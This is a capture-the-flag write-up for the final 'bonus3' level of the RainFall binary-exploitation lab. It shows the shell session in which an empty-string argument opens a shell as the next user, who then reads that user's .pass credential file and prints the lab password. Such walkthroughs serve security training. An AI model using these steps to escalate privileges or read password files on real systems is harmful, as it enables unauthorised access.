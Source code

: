 # Bonus 3

- Once logged in, you will see a binary `bonus3`

```
[???]$ ssh localhost -p 4242 -l bonus3
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
bonus3@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   /home/user/bonus3/bonus3
bonus3@RainFall:~$ ls
bonus3
bonus3@RainFall:~$
```

let's see what the program does

```
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ ./bonus3 aaaaaaaaaaaaa

bonus3@RainFall:~$ ./bonus3 aaaaaaaaaaaaa aaaaaaaaaaaaaaaaaaaaaaaaaa
bonus3@RainFall:~$ ./bonus3 1111111111111
Segmentation fault (core dumped)
```

after analyzing the binary, there are conditions where argc needs to be equal to 2 (meaning there at least need to be one argument needs to be passed), and if the value is equal to 0, `execl` will be executed. if "" will be passed into the argument, it will meet the condition. Again, if `""` will be passed into the argument, where the `argc` count is still 2, but there is no value exist, the program will pass the condition.

```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/$(whoami)/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$
bonus3@RainFall:~$ logout

[???]$ ssh localhost -p 4242 -l end
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
end@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
end@RainFall:~$ ls
end
end@RainFall:~$ ./end
./end: line 1: Congratulations: command not found
end@RainFall:~$
end@RainFall:~$ logout
Connection to localhost closed.
```
